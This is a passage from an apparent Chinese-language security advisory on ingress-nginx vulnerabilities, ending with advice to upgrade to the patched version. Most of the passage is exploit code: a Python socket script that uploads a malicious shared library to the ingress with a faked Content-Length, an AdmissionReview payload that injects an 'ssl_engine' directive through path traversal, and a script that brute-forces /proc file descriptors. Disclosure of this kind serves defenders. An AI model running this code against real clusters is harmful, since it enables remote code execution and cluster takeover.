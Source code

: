 2.向Nginx (ingress_url)发送恶意库文件，将其写入临时文件。  
  
```
   with open("evil_engine.so", "rb") as f:           evil_engine = f.read()          real_length = len(evil_engine)       fake_length = real_length + 10       url = ingress_url            parsed = urlparse(url)       host = parsed.hostname       port = parsed.port  or  80       path = parsed.path or  "/"          try:           sock = socket.create_connection((host, port))       except Exception as e:           print(f"Error connecting to {host}:{port}: {e} - host is up?")           sys.exit(0)       headers = (           f"POST {path} HTTP/1.1\r\n"           f"Host: {host}\r\n"           f"User-Agent: qmx-ingress-exploiter\r\n"           f"Content-Type: application/octet-stream\r\n"           f"Content-Length: {fake_length}\r\n"           f"Connection: keep-alive\r\n"           f"\r\n"       ).encode("iso-8859-1")          http_payload = headers + evil_engine       sock.sendall(http_payload)          response = b""       while  True:           chunk = sock.recv(4096)           if  not  chunk:               break           response += chunk          print("[*] Resposta:")       print(response.decode(errors="ignore"))          sock.close()
```  
  
  
3.向AdmissionWebhook_url 发送恶意 AdmissionReview(pid,fd不确定，需要爆破)。  
- review.json  
  
```
   [...]   "annotations": {             "nginx.ingress.kubernetes.io/auth-tls-match-cn": "CN=abc #(\n){}\n }}\nssl_engine ../../../../../../REPLACE;\n#",             "nginx.ingress.kubernetes.io/auth-tls-secret": "calico-system/node-certs",             "nginx.ingress.kubernetes.io/backend-protocol": "FCGI"           }   [...]
```  
  
- exploit.py  
  
```
   def send_request(admission_url, json_data, proc, fd):       print(f"Trying Proc: {proc}, FD: {fd}")       path = f"proc/{proc}/fd/{fd}"              replaced_data = json_data.replace("REPLACE", path)          headers = {           "Content-Type": "application/json"       }          full_url = admission_url.rstrip("/") + "/admission"          try:         response = requests.post(full_url, data=replaced_data, headers=headers, verify=False, timeout=5)                   print(f"Response for /proc/{proc}/fd/{fd}: {response.status_code}")       except Exception as e:           print(f"Error on /proc/{proc}/fd/{fd}: {e}")      def admission_brute(admission_url, max_workers=3):       # before use review.json file, check if alico-system/node-certs exists on the cluster.       with open("review.json", "r") as f:           json_data = f.read()          with ThreadPoolExecutor(max_workers=max_workers) as executor:           for proc in range(1, 50): # can be increased to 100               for fd in range(3, 30): # can be increased to 100 (not recommended)                   executor.submit(send_request, admission_url, json_data, proc, fd)
```  
  
  
注：admission_url为AdmissionWebhook的url；以上代码均来自[6]。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**四、修复建议**  
  
  
最简单且推荐的补救方案是  
立即升级到最新补丁版本  
。安装今天的补丁，就能修复所有这5个漏洞。  
  